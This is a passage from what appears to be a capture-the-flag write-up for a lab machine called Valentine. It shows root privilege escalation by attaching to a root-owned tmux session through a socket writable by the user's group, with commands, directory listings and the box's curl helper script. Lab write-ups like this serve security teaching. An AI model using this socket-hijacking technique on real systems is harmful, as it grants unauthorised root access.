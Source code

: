 NAME
     tmux — terminal multiplexer

SYNOPSIS
     tmux [-28lquvV] [-c shell-command] [-f file] [-L socket-name]
          [-S socket-path] [command [flags]]


ps command shows a tmux process run by root.

```
hype@Valentine:~$ ps -ef | grep tmux
root       1012      1  0 11:29 ?        00:00:01 /usr/bin/tmux -S /.devs/dev_sess

```
Based on the bash_history, hype went to .devs folder, started a tmux socket with tmux -L dev_sess, then tried to attach to it, but failed. Then looked up help, and used the right command "tmux -S /.devs/dev_sess". 

If we see /.devs/, we see the socket owned by root, and readable by the group hype.

```
hype@Valentine:/.devs$ ls -la
total 8
drwxr-xr-x  2 root hype 4096 Dec 31 11:29 .
drwxr-xr-x 26 root root 4096 Feb  6  2018 ..
srw-rw----  1 root hype    0 Dec 31 11:29 dev_sess
```

We connect to dev_sess just like hype - "tmux -S dev_sess", and we are root.

```
root@Valentine:/.devs# ls
dev_sess
root@Valentine:/.devs# cd
root@Valentine:~# ls
curl.sh  root.txt
root@Valentine:~# cat root.txt
```

curl.sh is the script that showed the passphrase for hype.

```
root@Valentine:~# cat curl.sh 
/usr/bin/curl -i -s -k  -X 'POST' \
    -H 'User-Agent: Mozilla/5.0 (X11; Linux i686; rv:45.0) Gecko/20100101 Firefox/45.0' -H 'Referer: https://127.0.0.1/decode.php' -H 'Content-Type: application/x-www-form-urlencoded' \
    -b 'PHPSESSID=n12acqnj0efoq5etm5d12k6j85' \
    --data-binary $'text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==' \
    'https://127.0.0.1/decode.php' >  /dev/null 2>&1

```
